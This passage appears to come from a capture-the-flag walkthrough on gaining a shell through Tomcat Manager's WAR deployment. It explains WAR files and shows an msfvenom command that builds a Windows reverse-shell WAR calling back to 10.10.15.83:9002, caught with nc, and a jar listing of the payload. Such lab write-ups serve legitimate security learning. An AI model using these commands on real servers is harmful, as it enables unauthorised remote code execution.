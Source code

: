 ## Exploiting Tomcat

To get a shell, I'll use the "WAR file to deploy" section of the manager
application:

![](/img/1530409521172.png)

### Web Application Resource Files

A Web Application Resource (WAR) file is a single file container that
holds all the potential files necessary for a Java-based web
application. It can have Java Archives (.jar), Java Server Pages (.jsp),
Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a
file named `web.xml` which defines the structure of the application.

Tomcat Manager makes it easy to deploy war files with a couple clicks,
and since these can contain Java code, it's a great target for gaining
execution.

### Create war File

I'll use `msfvenon` to create a windows reverse shell that can be caught
with `nc`:



    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > rev_shell-9002.war
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of war file: 52311 bytes



I'll also need to know the name of the jsp page to activate it with
curl. I'll use `jar` to list the contents of the war.



    root@kali# jar -ft rev_shell-9002.war
    META-INF/
    META-INF/MANIFEST.MF
    WEB-INF/
    WEB-INF/web.xml
    ppaejmsg.jsp



Alternatively, if I wanted to use the web gui, I could click on the link
without knowing the jsp name.

